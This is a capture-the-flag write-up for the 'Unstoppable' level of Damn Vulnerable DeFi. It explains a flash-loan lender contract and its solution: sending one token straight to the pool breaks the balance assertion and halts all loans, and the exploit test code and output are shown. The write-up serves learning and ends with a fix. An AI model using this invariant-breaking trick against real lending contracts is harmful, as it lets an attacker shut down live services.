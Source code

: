 # Unstoppable

## Introduction

The goal is stop pool from offering flash loan.
How does flash loan works?
In simple terms, flash loan are broken down into 3 steps and to be completed in a single transaction.
1) A loan from a pool of money is sent to receiver.
2) Receiver will use the money to execute a certain action from another smart contract.
3) Receiver will return the money with fixed rate (Something like an interest rate).

Reference: https://10clouds.com/blog/defi/understanding-flash-loans-in-defi/

## Code Breakdown

Let's start by breaking down the source code into functions.
There are two files - ***UnstoppableLender.sol*** and ***ReceiverUnstoppable.sol***.
***UnstoppableLender.sol*** will loan money to receiver and execute functions from ***ReceiverUnstoppable.sol***.

However, we'll look at ***UnstoppableLender.sol*** primarily.

There are a few variables declared, one consutructors and two functions in the smart contract.

For starters, this contract mainly use damnValuableToken as their main currency - ```IERC20 public immutable damnValuableToken```.
Openzeppelin is used to create the token.

Reference: https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#IERC20

```uint256 public poolBalance``` is created to store a pool token ready to be loaned. 

Next, a constructor is called whenever the smart contract is deployed.
Next, the tokens will be named as ***damnValuableToken***.
```
constructor(address tokenAddress) {
    require(tokenAddress != address(0), "Token address cannot be zero");
    damnValuableToken = IERC20(tokenAddress);
}
```
It requires ***tokenAddress*** and it performs a check if the address is 0. This will ensure the address integrity.

Now, we can talk about the functions in question.
Let's start with ***depositTokens***.
```
function depositTokens(uint256 amount) external nonReentrant {
    require(amount > 0, "Must deposit at least one token");
    // Transfer token from sender. Sender must have first approved them.
    damnValuableToken.transferFrom(msg.sender, address(this), amount);
    poolBalance = poolBalance + amount;
}
```

The functions require ***amount*** to be specified and more than 0 when it's called.
As part of an innate function from openzeppelin IERC20 , ```damnValuableToken.transferFrom(msg.sender, address(this), amount);``` will then transfer ```amount``` to ```address(this)``` from ```msg.sender```.
```msg.sender``` = sender address (deployer).
```address(this)``` = receiver address (pool smart contract address).
```amount``` = amount of tokens deposited to pool.

***poolBalance*** will be updated along with the new amount.
Note that this is the only place where ***poolBalance*** can be updated.


Next, ***flashLoan*** is the main function to execute a flash loan.
```
function flashLoan(uint256 borrowAmount) external nonReentrant {
    require(borrowAmount > 0, "Must borrow at least one token");

    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

    // Ensured by the protocol via the `depositTokens` function
    assert(poolBalance == balanceBefore);
    
    damnValuableToken.transfer(msg.sender, borrowAmount);
    
    IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);
    
    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```

I'll breakdown a few requirements quickly.
```require(borrowAmount > 0, "Must borrow at least one token");``` = Amount borrowed must be more than 1 token.
```require(balanceBefore >= borrowAmount, "Not enough tokens in pool");``` = Current amount of tokens in the pool must be more than amount borrowed.
```assert(poolBalance == balanceBefore);``` = Current amount of tokens in poolBalance must be the same before the flashloan.
```damnValuableToken.transfer(msg.sender, borrowAmount);``` = Token transferred to receiver.
```IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);``` = Execute function in another contract ***ReceiverUnstoppable.sol***. 

During this function, tokens loaned to receiver will be returned to pool.
```require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");``` = Amount of tokens after loaned must be more than the amount of tokens before the loan

## Hint
The goal is to stop the smart contract from functioning. 
Take a look at this section ```assert(poolBalance == balanceBefore);```.

Technically, there exist 2 pool balance - 1 in ***UnstoppableLender.sol** and ***DamnValuableToken.sol***.

Notice that ***poolBalance*** must be equal to ***balanceBefore***. These are the 2 pool balance
***poolBalance*** can only be increased from the function ***depositTokens***.
***balanceBefore*** checks for the current tokens in the pool directly from ***DamnValuableToken.sol*** (openzeppelin innate function). 
Therefore, both variables are async.
A simple solution is to transfer token directly into ***DamnValuableToken.sol*** to trigger a revert in ```assert(poolBalance == balanceBefore);```.

## Solution
Here's the solution (I've added 2 functions in ***ReceiverUnstoppable.sol*** to retrieve the number of tokens in the pool).
```
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */
    //Before Transfer
    before_bal1 = await this.pool.getPoolBal();
    before_bal2 = await this.pool.getTokenBal();
    console.log("Before transfer:\nBalance from ReceiverUnstoppable.sol - ", before_bal1.toString());
    console.log("Balance from DamnValuableToken.sol - ", before_bal2.toString());

    //Transfer token to halt flashloan services
    console.log("Transferring 1 token to DamnValuableToken.sol pool");
    await this.token.transfer(this.pool.address, 1);

    //After Transfer
    after_bal1 = await this.pool.getPoolBal();
    after_bal2 = await this.pool.getTokenBal();
    console.log("After transfer:\nBalance from ReceiverUnstoppable.sol - ", after_bal1.toString());
    console.log("Balance from DamnValuableToken.sol - ", after_bal2.toString());
});
```

Functions added to reflect the result below
```
function getPoolBal() public view returns (uint256){
    return poolBalance;
}

function getTokenBal() public view returns (uint256){
    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    return balanceBefore;
}
```

Here's the result 
```
Before transfer:
Balance from ReceiverUnstoppable.sol -  1000000000000000000000000
Balance from DamnValuableToken.sol -  1000000000000000000000000
Transferring 1 token to DamnValuableToken.sol pool
After transfer:
Balance from ReceiverUnstoppable.sol -  1000000000000000000000000
Balance from DamnValuableToken.sol -  1000000000000000000000001
```


## Recommendations
By no means you should ever need two set of pools. For the sake of this challenge, one simple solution is to sync ***poolBalance*** and ***damnValuableToken.balanceOf(address(this))*** whenever a new token is transferred into either pool. Although it will create a whole new magntitude of problem but hey, at least its solved. :)
